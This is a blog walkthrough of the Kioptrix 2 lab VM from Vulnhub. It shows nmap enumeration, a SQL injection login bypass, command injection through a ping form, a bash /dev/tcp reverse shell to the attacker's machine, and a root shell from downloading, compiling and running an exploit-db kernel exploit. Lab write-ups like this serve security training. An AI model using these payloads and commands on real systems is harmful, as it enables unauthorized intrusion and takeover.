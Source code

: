 ```yaml
---
layout: post
title: "Kioptrix 2 Walkthrough (Vulnhub)"
date: 2016-12-15 12:00:00
share: true
comments: true
tags: vulnhub kioptrix
---
```


_Kioptrix 2 VM can be downloaded [here](https://www.vulnhub.com/entry
/kioptrix-level-11-2,23/)._

## 0\. Get VMs IP

```console
root@kali:~# netdiscover -r 192.168.1.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 260 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 15600
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.67    c4:e9:84:10:d3:5e    255   15300  TP-LINK TECHNOLOGIES CO.,LTD.
 **...**
```

## 1\. Enumeration

### 1.1 TCP Ports enumeration

```console
root@kali:~# nmap 192.168.1.67 -sV

Starting Nmap 7.31 ( https://nmap.org ) at 2016-12-15 00:30 EST
Nmap scan report for 192.168.1.67
Host is up (0.000049s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: C4:E9:84:10:D3:5E (Tp-link Technologies)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.64 seconds
```

Hmm, some interesting services we see running on the machine. Most of these are pretty old. I did a quick search for existing exploits and didn't find any. It's still very possible that other vulnerabilities exist, yet I decided to check the web server running first.

Note: I didn't do a full TCP scan as it was taking way too long. Running it in
the background after the initial scan is might be useful.

_____________________________________________________________________________

## 2\. Web server

#### 2.1 Login form

<table align="center" border="1" cellpadding="2" cellspacing="2" style="width: 300px;">  <tbody>
<tr>    <td align="center" colspan="2"><b>Remote System Administration Login</b>    </td>   </tr>
<tr>    <td width="150">Username</td>    <td><input name="uname" type="text" /></td>   </tr>
<tr>    <td width="150">Password</td>    <td><input name="psw" type="password" />    </td>   </tr>
<tr>    <td align="center" colspan="2"><input name="btnLogin" type="submit" value="Login" />    </td>   </tr>
</tbody></table>
 

Hitting `http://192.168.1.67` shows us a login form, possibly vulnerable to SQL injection. I tried the vanilla `admin' or 1=1 #` and it worked!

Why did it work? Possibly because the query is in this form:

```sql
SELECT * from users where username="$_REQUEST["username"]" and password="$_REQUEST["password"]"
```

After submitting `admin" or 1=1 #`, it's evaluated to:

```sql
SELECT * from users where username="admin" or 1=1 # //ignored
```
which logs us in as admin.


#### 2.2 Admin interface

<h4>
<form action="pingit.php" method="post" name="ping" target="_blank">
<table border="1" style="width: 600px;">  <tbody>
<tr valign="middle">    <td align="center" colspan="2"><b>Welcome to the Basic Administrative Web Console</b>    </td>   </tr>
<tr valign="middle">    <td align="center">Ping a Machine on the Network:    </td>     <td align="center"><input name="ip" size="30" type="text" />     <input name="submit" type="submit" value="submit" />    </td>    </tr>
</tbody></table>
</form>
</h4>

This looks very vulnerable to an RCE (Remote Code Injection) attack. Let's try appending commands to it.


  * **Input:**  127.0.0.1
    **Output:**
```
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.010 ms
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.012 ms
    
    --- 127.0.0.1 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 1998ms
    rtt min/avg/max/mdev = 0.010/0.011/0.012/0.003 ms, pipe 2
```

  * **Input:**  127.0.0.1; whoami
    **Output:**
```
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.007 ms
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.013 ms
    
    --- 127.0.0.1 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 1999ms
    rtt min/avg/max/mdev = 0.007/0.010/0.013/0.004 ms, pipe 2
    apache
```


`whoami` returned apache! We're able to execute arbitrary commands. Let's get a shell by starting a listener on attacking machine.

```console
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
```

Then getting a reverse shell connected to it.

**Input:** 127.0.0.1; bash -i &gt;&amp; /dev/tcp/192.168.1.69/443 0&gt;&amp;1
**Output on attacking machine:**
```console
    root@kali:~# nc -nvlp 443
    listening on [any] 443 ...
    connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769
    bash: no job control in this shell
    bash-3.00$
```
Awesome! We got a shell as apache user.

_____________________________________________________________________________

## 3\. Getting root

Basic enumeration will reveal that this CentOS version **(4.5 Final) **is vulnerable to  [ CVE-2009-2698 ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2698)
Exploit can be found [here](https://www.exploit-db.com/exploits/9542/).

```console
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769
bash: no job control in this shell
bash-3.00$ cat /etc/issue
Welcome to Kioptrix Level 2 Penetration and Assessment Environment
--The object of this game:
|_Acquire "root" access to this machine.
There are many ways this can be done, try and find more then one way to
appreciate this exercise.
DISCLAIMER: Kioptrix is not resposible for any damage or instability
caused by running, installing or using this VM image.
Use at your own risk.
WARNING: This is a vulnerable system, DO NOT run this OS in a production
environment. Nor should you give this system access to the outside world
(the Internet - or Interwebs..)

Good luck and have fun!
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ uname -mrs
Linux 2.6.9-55.EL i686
bash-3.00$ cat /etc/redhat-release
CentOS release 4.5 (Final)
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9542 --no-check-certificate
--23:08:44--  https://www.exploit-db.com/download/9542
           => `9542'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.sucuri.net' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 2,645 (2.6K) [application/txt]

    0K ..                                                    100%  210.21 MB/s

23:08:45 (210.21 MB/s) - `9542' saved [2645/2645]

bash-3.00$ ls
9542
index.html
bash-3.00$ mv 9542 a.c
bash-3.00$ gcc a.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00#
```

Quite easy and straight forward! 

